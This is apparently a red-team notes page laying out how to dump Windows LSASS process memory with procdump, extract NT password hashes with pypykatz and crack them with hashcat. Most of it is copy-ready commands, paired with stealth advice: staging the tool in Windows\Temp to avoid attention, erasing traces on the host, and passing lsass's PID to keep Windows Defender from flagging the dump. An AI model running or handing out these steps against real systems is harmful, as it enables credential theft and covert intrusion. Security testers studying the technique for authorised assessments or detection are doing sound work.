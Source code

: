 # Procdump & LSASS

## Procdump

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" %}

procdump is a tool created and signed by microsoft for sysadmins and developers to dump a running process memory. It attaches to the process, reads its memory and write it into a file.

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/procdump" %}

the syntax is like this:

```
procdump --accepteula -ma <processus> processus_dump.dmp
```

## Dumping LSASS from Memory

#### it’s possible to dump lsass memory on a host, download its dump locally and extract the credentials using Mimikatz.

{% hint style="info" %}
Procdump can be used to dump lsass, since it is considered as legitimate thus it will not be considered as a malware.To do so, send procdump to the server eather by a meterpreter session or nc or smbclient.py from the impacket suit.
{% endhint %}

#### try to upload it to windows/temp directory to avoid attention Once uploaded, procdump needs to be executed in order to create this lsass dump.

```
procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp
```

The dump then needs to be downloaded on the attacker’s host, and traces on the remote host should be erased.

#### Credentials can be retrieved with Mimikatz: the first line loads the memory dump, and the second one retrieves the secrets.but we need a windows system for that.

## Pypykatz

This technique is very practical since it does not generate much noise and only legitimate executable is used on the targeted hosts. pypykatz is usefull for situations when we want to run everything on a linux machine:

{% embed url="https://github.com/skelsec/pypykatz" %}

download pypykatz from repo or with pip3

```
pip3 install pypykatz
pip3 install minidump minikerberos aiowinreg msldap winsspi
```

open the dump file:

```
pypykatz lsa minidump lsass.dmp
```

now look for the NT values in the out put. (windows hashed passwords) and copy them into a file we crack the hashes with hashcat then:

```
hashcat -m 1000 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt --status
```

{% hint style="info" %}
dumping lsass is considered as suspicious activity by Windows Defender. When the dumping process is finished, Windows Defender removes the dump after a few seconds. If we have very good connectivity and the dump is not too big, it is possible to download the dump before it’s being deleted.by providing it with lsass PID, Windows Defender no longer complains.We just have to find lsass PID, using the command tasklist for example.
{% endhint %}

```
tasklist /fi "imagename eq lsass.exe"
```

Once we retrieve this PID, we just use it with procdump

```
procdump -accepteula -ma 640 lsass.dmp
```

the dump process above can be dione automatically with spraycatz:

{% embed url="https://github.com/aas-n/spraykatz" %}
